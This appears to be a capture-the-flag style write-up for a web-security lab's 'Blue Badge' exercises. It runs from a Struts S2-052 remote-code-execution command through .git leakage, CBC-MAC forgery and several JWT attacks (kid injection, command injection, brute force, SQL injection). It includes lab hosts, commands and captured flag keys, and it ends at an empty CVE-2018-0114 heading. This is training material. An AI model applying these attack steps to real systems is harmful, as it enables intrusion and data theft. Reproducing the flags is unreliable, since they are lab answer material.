 ## Blue Badge

### Struts S2-052
XML deserialization to RCE

```
$ python3 s2-052.py --target http://ptl-cb6ff16c-87a44c51.libcurl.so/orders/3 --command "/usr/local/bin/score 2fdb31a2-ca58-4650-abfb-9406be061d69"
```

### Git Information Leak
Go to `/.git`

### Git Information Leak II
Exploring the `.git` directory

```
http://ptl-b59955a8-7868f360.libcurl.so/.git/HEAD
http://ptl-b59955a8-7868f360.libcurl.so/.git/refs/heads/master
http://ptl-b59955a8-7868f360.libcurl.so/.git/objects/cc/c6fa9250402cc9a7631fb0be559f00c5fd227a
$ printf "\x1f\x8b\x08\x00\x00\x00\x00\x00" |cat - c6fa9250402cc9a7631fb0be559f00c5fd227a |gzip  -cd -q
http://ptl-b59955a8-7868f360.libcurl.so/.git/objects/58/ace0476093d04023f84d7816adacfa7b879c43
$ printf "\x1f\x8b\x08\x00\x00\x00\x00\x00" |cat - ace0476093d04023f84d7816adacfa7b879c43 |gzip  -cd -q|strings -a|less
tree 182
40000 css
100644 favicon.ico
s100644 footer.php
3100644 header.php
100644 index.php
```

Read files through their hashes

```
Unfortunately, using strings does not give us the hash for each file. We can do is create our own local repo:

$ mkdir /tmp/hack
$ cd /tmp/hack
$ git init 
And copy our files in it:

$ mkdir -p .git/objects/58 .git/objects/bc
$ cp /tmp/ace0476093d04023f84d7816adacfa7b879c43 /tmp/hack/.git/objects/58/
$ cp /tmp/4f01bdd14060e4ac78b36972584909d287b6f1 /tmp/hack/.git/objects/bc/
Then we should be able to retrieve the list of hashes:

$ git cat-file -p 58ace0476093d04023f84d7816adacfa7b879c43
040000 tree b352dde43705f193d2c1d4e6f6a133321186869f    css
100644 blob f303c6a7797f5e7a0d5bd31d39a7149366bbf873    favicon.ico
100644 blob 5adab1a1c52dc009d4f26bbce30dacc4c93eea33    footer.php
100644 blob c3646db7f9c7e6f126c75900fdcce16d50e1da82    header.php
100644 blob 88beb94b5e1fc48e1625c89f892b04bffb58225c    index.php
Once you're there, you can keep downloading the files and copying them in the right spot to get access to the full code using git cat-file -p ....
```

Or you can use GitTools's gitdumper

```
$ ./gitdumper.sh http://ptl-b59955a8-7868f360.libcurl.so/.git/ out1
$ ./extractor.sh out1 out2
# key in header.php: 7a56a0cc-f042-4b43-97de-d4427197e8fa
```

### CBC MAC
- first get the signature for `administ` since block size is 8 bytes.
- then get the signature for `sign("administ") ^ "rator%00%00%00"`
- this signature will work for `administrator`

```
$ python3 cbc-mac.py
```

### CBC MAC II

- proper implementation of CBC-MAC uses a NULL IV.
- a string of block-size that only contains NULL bytes.
- in this application IV is random and given to user as a cookie.
- the trick from `CBC MAC 1` won't work since the IV changes each time you login.
- so the signature for `administ` will not be applicable next to for `rator%00%00%00`
- `administrator` can be written as `bdministrator`
- then xor the first character in both iv and auth.

```
$ python3 cbc-mac2.py
# 93fb87b6-11b4-485f-973e-91206b7234ba
```

### JWT III
- kid in jwt helps rotating keys, but the key retrieval might be compromised.
- the key retrieval is done prior to the signature verification.
- https://tools.ietf.org/html/rfc7515#section-4.1.4

```
$ python3 jwt-3.py #kid-injection
```

### JWT IV
- kid in jwt helps rotating keys, but the key retrieval might be compromised.
- the retrieval is done prior to the verfication of the signature therefore valid signature is not required.
- https://www.ruby-lang.org/en/news/2017/12/14/net-ftp-command-injection-cve-2017-17405/
    - ruby has two ways to open a file.
    - if it uses `Kernel.open` or `open` and the filename starts with a pipe (|) then the filename will be run as a command.

```
# set kid as the command you want to execute
$ python3 jwt-4.py
```

### JWT V
bruteforce the secret key

```
$ python3 jwt-5.py
```

### JWT VI
sql injection in jwt kid header

```
$ python3 jwt-6.py
# 6224a507-98fe-4d3f-805d-ae41ada4b4ae
# 3185a61d-1b90-4c24-8ce9-5e1ee6fbc5b8
```

### JWT VII
signature not verified

```
$ python3 jwt-7.py
# 62e50e5a-32f5-430d-aeda-ac2d30bab335
```

### CVE-2018-0114



